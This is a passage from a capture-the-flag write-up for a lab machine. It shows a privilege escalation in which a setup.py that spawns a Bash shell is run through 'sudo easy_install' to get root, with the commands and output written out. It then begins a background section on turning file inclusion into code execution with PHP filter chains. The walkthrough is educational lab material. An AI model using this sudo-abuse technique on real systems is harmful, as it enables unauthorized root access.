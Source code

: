 
It can take a URL (so I could host something malicious on my machine and fetch
it), but it can also just take a directory. I’ll create a directory:

    
    
    developer@updown:~$ mkdir /tmp/0xdf
    developer@updown:~$ cd /tmp/0xdf
    developer@updown:/tmp/0xdf$
    

The malicious script goes into `setup.py`:

    
    
    developer@updown:/tmp/0xdf$ echo -e 'import os\n\nos.system("/bin/bash")' > setup.py
    developer@updown:/tmp/0xdf$ cat setup.py 
    import os
    
    os.system("/bin/bash")
    

In this case, I’m just having it import the os module and call `os.system` to
run a Bash shell.

Now I just call `easy_install` pointing to that directory:

    
    
    developer@updown:/tmp/0xdf$ sudo easy_install /tmp/0xdf/
    WARNING: The easy_install command is deprecated and will be removed in a future version.
    Processing 
    Writing /tmp/0xdf/setup.cfg
    Running setup.py -q bdist_egg --dist-dir /tmp/0xdf/egg-dist-tmp-ObdjVa
    root@updown:/tmp/0xdf# id
    uid=0(root) gid=0(root) groups=0(root)
    

And read `root.txt`:

    
    
    root@updown:~# cat root.txt
    a608663c************************
    

## Beyond Root - LFI2RCE via PHP Filters

### Background

There’s a really nice method for turning an LFI into RCE using PHP filters. As
far as I know, this was first posted
[here](https://book.hacktricks.xyz/pentesting-web/file-inclusion/lfi2rce-via-
php-filters) and HackTricks based on [this CTF writeup from
loknop](https://gist.github.com/loknop/b27422d355ea1fd0d90d6dbc1e278d4d), and
later Synacktiv published an awesome [blog
post](https://www.synacktiv.com/publications/php-filters-chain-what-is-it-and-
how-to-use-it.html) and a [script
POC](https://github.com/synacktiv/php_filter_chain_generator).

At a high level, this works by passing text into various PHP filters. PHP
filters are meant to read some resource and then apply some filter to it (like
base64 encode / decode or converting text format).
